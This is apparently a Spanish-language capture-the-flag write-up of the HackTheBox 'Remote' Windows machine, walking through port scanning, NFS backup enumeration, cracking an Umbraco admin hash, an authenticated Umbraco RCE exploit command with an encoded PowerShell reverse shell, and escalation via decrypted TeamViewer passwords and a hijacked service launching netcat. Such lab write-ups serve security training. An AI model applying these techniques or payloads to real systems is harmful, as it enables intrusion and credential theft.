Remote
Write-up de la máquina Remote de HackTheBox.

Índice
- Introducción
- Estadísticas
- Reconocimiento
- Escaneo de host
- Enumeración
- Servicios
- Explotación
- Cracking de hash obtenido
- RCE
- Post Explotación
- Enumeración
- Escalación de privilegios
- Referencias
Introducción
Estadísticas
| Característica | Descripción |
|---|---|
| Nombre | Remote |
| OS | Windows |
| Dificultad oficial | Easy |
| Dificultad de comunidad |  |
| Puntos | 20 |
| Creadores | mrb3n |
Reconocimiento
Escaneo de host
Escaneo completo de puertos
└─$ sudo nmap -sS --min-rate 5000 -vvv -open -p- -n -Pn -oG nmap/all_ports_ss $TARGET
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-02 09:05 EDT
Initiating SYN Stealth Scan at 09:05
Scanning 10.10.10.180 [65535 ports]
Discovered open port 80/tcp on 10.10.10.180
Discovered open port 111/tcp on 10.10.10.180
Discovered open port 445/tcp on 10.10.10.180
Discovered open port 135/tcp on 10.10.10.180
Discovered open port 139/tcp on 10.10.10.180
Discovered open port 21/tcp on 10.10.10.180
Discovered open port 49664/tcp on 10.10.10.180
Discovered open port 49665/tcp on 10.10.10.180
Discovered open port 5985/tcp on 10.10.10.180
Discovered open port 49667/tcp on 10.10.10.180
Discovered open port 49678/tcp on 10.10.10.180
Discovered open port 47001/tcp on 10.10.10.180
Discovered open port 49680/tcp on 10.10.10.180
Discovered open port 49666/tcp on 10.10.10.180
Discovered open port 49679/tcp on 10.10.10.180
Discovered open port 2049/tcp on 10.10.10.180
Completed SYN Stealth Scan at 09:05, 13.25s elapsed (65535 total ports)
Nmap scan report for 10.10.10.180
Host is up, received user-set (0.068s latency).
Scanned at 2022-06-02 09:05:13 EDT for 13s
Not shown: 65519 closed tcp ports (reset)
PORT STATE SERVICE REASON
21/tcp open ftp syn-ack ttl 127
80/tcp open http syn-ack ttl 127
111/tcp open rpcbind syn-ack ttl 127
135/tcp open msrpc syn-ack ttl 127
139/tcp open netbios-ssn syn-ack ttl 127
445/tcp open microsoft-ds syn-ack ttl 127
2049/tcp open nfs syn-ack ttl 127
5985/tcp open wsman syn-ack ttl 127
47001/tcp open winrm syn-ack ttl 127
49664/tcp open unknown syn-ack ttl 127
49665/tcp open unknown syn-ack ttl 127
49666/tcp open unknown syn-ack ttl 127
49667/tcp open unknown syn-ack ttl 127
49678/tcp open unknown syn-ack ttl 127
49679/tcp open unknown syn-ack ttl 127
49680/tcp open unknown syn-ack ttl 127
Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 13.33 seconds
Raw packets sent: 65924 (2.901MB) | Rcvd: 65535 (2.621MB)
Escaneo específico
└─$ nmap -sCV -p 21,80,111,135,139,445,2049,5985,47001,49664,49665,49666,49667,49678,49679,49680 -n -Pn -oN nmap/targeted $TARGET
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-02 09:08 EDT
Nmap scan report for 10.10.10.180
Host is up (0.064s latency).
PORT STATE SERVICE VERSION
21/tcp open ftp Microsoft ftpd
| ftp-syst:
|_ SYST: Windows_NT
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
80/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Home - Acme Widgets
111/tcp open rpcbind 2-4 (RPC #100000)
| rpcinfo:
| program version port/proto service
| 100000 2,3,4 111/tcp rpcbind
| 100000 2,3,4 111/tcp6 rpcbind
| 100000 2,3,4 111/udp rpcbind
| 100000 2,3,4 111/udp6 rpcbind
| 100003 2,3 2049/udp nfs
| 100003 2,3 2049/udp6 nfs
| 100003 2,3,4 2049/tcp nfs
| 100003 2,3,4 2049/tcp6 nfs
| 100005 1,2,3 2049/tcp mountd
| 100005 1,2,3 2049/tcp6 mountd
| 100005 1,2,3 2049/udp mountd
| 100005 1,2,3 2049/udp6 mountd
| 100021 1,2,3,4 2049/tcp nlockmgr
| 100021 1,2,3,4 2049/tcp6 nlockmgr
| 100021 1,2,3,4 2049/udp nlockmgr
| 100021 1,2,3,4 2049/udp6 nlockmgr
| 100024 1 2049/tcp status
| 100024 1 2049/tcp6 status
| 100024 1 2049/udp status
|_ 100024 1 2049/udp6 status
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
445/tcp open microsoft-ds?
2049/tcp open mountd 1-3 (RPC #100005)
5985/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open msrpc Microsoft Windows RPC
49665/tcp open msrpc Microsoft Windows RPC
49666/tcp open msrpc Microsoft Windows RPC
49667/tcp open msrpc Microsoft Windows RPC
49678/tcp open msrpc Microsoft Windows RPC
49679/tcp open msrpc Microsoft Windows RPC
49680/tcp open msrpc Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
| smb2-security-mode:
| 3.1.1:
|_ Message signing enabled but not required
| smb2-time:
| date: 2022-06-02T13:09:19
|_ start_date: N/A
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 102.15 seconds
Enumeración
Servicios
http - 80
ffuf
Al navegar a través del sitio disponible y no encontrar información relevante en primera instancia, se decidió enumerar directorios de manera automática mediante:
Encontrando así el directorio umbraco el cual no pareció común bajo el contexto del sitio.

Manual
Al navegar manualmente al directorio se visualizó un login, a lo que posteriormente se buscó información relacionada encontrando que se trataba de un sistema de gestor de contenidos (CMS).

Al buscar rutas de explotación se encontró un exploit (junto con su repositorio) el cuál para ser ejecutado se requiere contar con credenciales válidas, abriendo paso a dos consideraciones de camino a la fase de explotación:
- Realizar búsqueda de credenciales por algún sitio (preferente).
- Realizar fuerza bruta al login (siempre último recurso).
mountd - 2049
Al identificar el servicio y encontrar que se trataba de exposición de puntos de montaje a través de red, se hizo uso de showmount -e 10.10.10.180 visualizando así el montaje site_backups.

Posteriormente, para poder navegar a través del directorio e interactuar cómodamente se creó la carpeta /mnt/remote y se ejecutó:
Para montar ahí lo expuesto en el servidor.
Teniendo en consideración la búsqueda de credenciales, se buscaron patrones en texto claro en el punto de montaje.

Al buscar en los contenidos de los archivos señalados (los que resultaron más atractivos) se encontró en el archivo UmbracoTraceLog.intranet.txt un usuario potencial que se utilizó para continuar con la búsqueda de información.

Utilizando lo encontrado, se procedió a hacer otra búsqueda descartando así múltiples archivos permitiendo verificar otros que con anterioridad no se revisaron.

Al ser interpretado como binario, se uso:
Para interpretar los caracteres legibles identificando así las credenciales admin@htb.local:b8be16afba8c314ad33d812f22a04991b90e2aaa.

Explotación
Cracking de hash obtenido
Guardando el hash del usuario admin en un archivo y haciendo uso de:
Se obtuvo la contraseña admin@htb.local:baconandcheese.

RCE
Después de validar las credenciales con el portal de umbraco y descargar el exploit previamente encontrado, se ejecutó:
Para corroborar su uso.

Haciendo uso de Reverse Shell Generator se generó una reverse shell de powershell en base64 para entablar la conexión con:
python exploit.py -u admin@htb.local -p baconandcheese -i http://10.10.10.180 -c powershell.exe -a '-e JABjAGwAaQBlAG4AdAAg[...]'

Post Explotación
Enumeración
Verificando los privilegios que se tienen con el usuario obtenido haciendo uso de:
Se visualizó que el privilegio SeImpersonatePrivilege se encuentra habilitado, permitiendo su explotación haciendo uso de Rotten/JuicyPotato.

Por medio de winPEAS se encontró que el servicio de TeamViewer se encuentra habilitado y ejecutándose. Concordando de alguna forma con el nombre de la máquina.

Posteriormente, se realizó una búsqueda sobre los exploits disponibles sobre TeamViewer encontrando los siguientes.

En donde por curiosidad se tomó en consideración la exposición de credenciales y búscando más información al respecto se encontró el módulo de metasploit windows/gather/credentials/teamviewer_passwords y un repositorio en conjunto con su artículo en donde se realiza una PoC para descifrar las credenciales alojadas en registros de Windows.
También dentro de la salida de winPEAS se visualiza que se cuenta con acceso completo al servicio UsoSvc, lo que permitiría modificar las opciones del servicio y detener o iniciar su ejecución.

Escalación de privilegios
iis apppool → nt authority system
TeamViewer
Al subir el script de powershell a la máquina, cargarlo como módulo en la sesión con Import-Module y ejecutar la función de extración Get-TeamViewPasswords, se descifró la contraseña !R3m0te!.

El mismo proceso puede ser realizado con el módulo de metasploit, sin embargo, es necesario tener una sesión abierta preferentemente de meterpreter (al tiempo que se resolvió la máquina el payload ejecutado fue windows/meterpreter_reverse_tcp)
Probando posteriormente la contraseña con el usuario Administrator mediante:
Obteniendo así acceso como NT AUTHORITY\SYSTEM.

Modificación de servicios
Mediante:
Se puede ver más a detalle información respecto este servicio.

Por lo que haciendo uso de:
Se buscó la modificación de la ruta del binario a ejecutar sustituyéndola con la ejecución de netcat para entablar una reverse shell. Al consultar de nuevo la información del servicio, se observa la modificación del valor.

Por consiguiente al poner la conexión a la escucha y realizar un reinicio del servicio con:
Se logró tener acceso como NT AUTHORITY\SYSTEM satisfactoriamente.

JuicyPotato
Debido al no tener éxito al aprovecharse del privilegio ni con el uso de JuicyPotato ni con PrintSpoofer se buscó corroborar con el writeup oficial, el cuál indica que debería ser válido el método, sin embargo, no se logró satisfactoriamente.